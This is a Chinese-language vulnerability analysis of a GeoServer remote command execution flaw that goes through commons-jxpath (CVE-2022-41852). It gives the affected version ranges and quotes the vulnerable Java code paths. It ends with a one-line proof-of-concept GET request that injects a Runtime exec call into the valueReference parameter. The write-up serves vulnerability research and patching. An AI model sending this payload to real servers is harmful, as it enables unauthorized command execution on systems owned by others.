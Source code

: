 #GeoServer #Commons-Jxpath
## 影响范围
- GeoServer < 2.23.6
- 2.24.0 <= GeoServer < 2.24.4
- 2.25.0 <= GeoServer < 2.25.2


## 漏洞分析
调用commons-jxpath 1.3 导致命令执行 commons-jxpath漏洞编号CVE-2022-41852
在`org/geoserver/wfs/GetPropertyValue.java`第99行geotool的evaluate方法

```JAVA
try {  
  
    PropertyName propertyName =  
            filterFactory.property(request.getValueReference(), getNamespaceSupport());  
    PropertyName propertyNameNoIndexes =  
            filterFactory.property(  
                    request.getValueReference().replaceAll("\\[.*\\]", ""),  
                    getNamespaceSupport());  
    AttributeDescriptor descriptor =  
            (AttributeDescriptor)  
                    propertyNameNoIndexes.evaluate(featureType.getFeatureType());  
    boolean featureIdRequest =  
            FEATURE_ID_PATTERN.matcher(request.getValueReference()).matches();  
    if (descriptor == null && !featureIdRequest) {  
        throw new WFSException(  
                request, "No such attribute: " + request.getValueReference());  
    }  
  
    // create value collection type from feature collection  
    ValueCollectionType vc = Wfs20Factory.eINSTANCE.createValueCollectionType();  
    vc.setTimeStamp(fc.getTimeStamp());  
    vc.setNumberMatched(fc.getNumberMatched());  
    vc.setNumberReturned(fc.getNumberReturned());  
    vc.getMember()  
            .add(  
                    new PropertyValueCollection(  
                            fc.getMember().iterator().next(), descriptor, propertyName));  
    return vc;  
} catch (IOException e) {  
    throw new WFSException(request, e);  
}
```


在`org/geotools/filter/AttributeExpressionImpl.java`调用了漏洞api`FeaturePropertyAccessorFactory.FeaturePropertyAccessor#get()`

```JAVA
if (accessors != null) {  
    for (PropertyAccessor propertyAccessor : accessors) {  
        accessor = propertyAccessor;  
        try {  
            value = accessor.get(obj, attPath, target);  
            success = true;  
            break;  
        } catch (Exception e) {  
            // fine, we'll try another accessor  
            if (exceptions == null) {  
                exceptions = new ArrayList<>();  
            }  
            exceptions.add(e);  
        }  
    }  
}
```

![](attachments/Pasted%20image%2020241013162054.png)

![](attachments/Pasted%20image%2020241013162448.png)

## POC
```shell
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'cmd')
```
